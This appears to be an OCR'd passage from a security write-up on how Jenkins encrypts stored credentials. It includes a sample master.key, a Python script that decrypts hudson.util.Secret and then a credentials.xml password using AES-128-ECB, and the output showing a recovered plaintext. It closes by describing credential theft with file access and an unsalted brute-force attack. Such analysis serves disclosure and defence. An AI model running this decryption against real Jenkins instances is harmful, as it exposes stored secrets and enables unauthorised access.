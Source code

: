 Since encrypting the key with a master key was not enough, it is also using a hashing of the master key, just in case.

## Decryption script
Here is my master.key file:

```
6fa18d9aaac920b016d119b76de75251f472ec6f44734533d64eeb5de794f1ca33108a7a7c853a3acf084184e3e93ff98484d668a32d16f810cce970f93c750da0b785cb25527384acab38015c1a3e180a342b807f724da01f3e94584ac60651dc7f1958f3e2c6ed1a16990cbbcc361c82e3b65e96f435173ea67b7255d6810f
```

which is different from the binary format of hudson.util.Secret. I initially tried to unhexlify the content, before realising that it was used as-is.

So here is the first part to decrypt the intermediate key, using the master.key:

```
hashed_master_key = sha256(master_key).digest()[:16] # truncate to emulate toAes128Key
hudson_secret_key = open("hudson.util.Secret").read()

o = AES.new(hashed_master_key, AES.MODE_ECB)
x = o.decrypt(hudson_secret_key)
assert magic in x
And now to decrypt our password:

k = x[:-16] # remove the MAGIC
k = k[:16]  # truncate to emulate toAes128Key

password = base64.decodestring("VHWeSi8aTjIHIObYWyNw/4hrqydpYESwI1JWfmBQNdI=")
o = AES.new(k, AES.MODE_ECB)
x = o.decrypt(password)
assert magic in x
print x
```

When run:

```shell
[tweek@sec0 jenkins]$ ./decrypt.py | hexdump -C
00000000  70 61 73 73 77 6f 72 64  3a 3a 3a 3a 4d 41 47 49  |password::::MAGI|
00000010  43 3a 3a 3a 3a 0b 0b 0b  0b 0b 0b 0b 0b 0b 0b 0b  |C::::...........|
00000020  0a                                                |.|
00000021
```

## Conclusion
As we have seen, Jenkins uses the master.key to encrypt the key hudson.util.Secret. This key is then used to encrypt the password in credentials.xml. AES-128-ECB is used for all encryptions.

From there, there are two attacks to consider:

With file access to a Jenkins instance, grab secrets/* and credentials.xml. Using this script, you will be able to retrieve all the stored passwords.
An online brute force attack is possible. Since the passwords are not salted, two passwords will have the same encrypted image. To test if the encrypted password matches a test password, one could add a credential with the test password and compare the encrypted value with the encrypted unknown password.

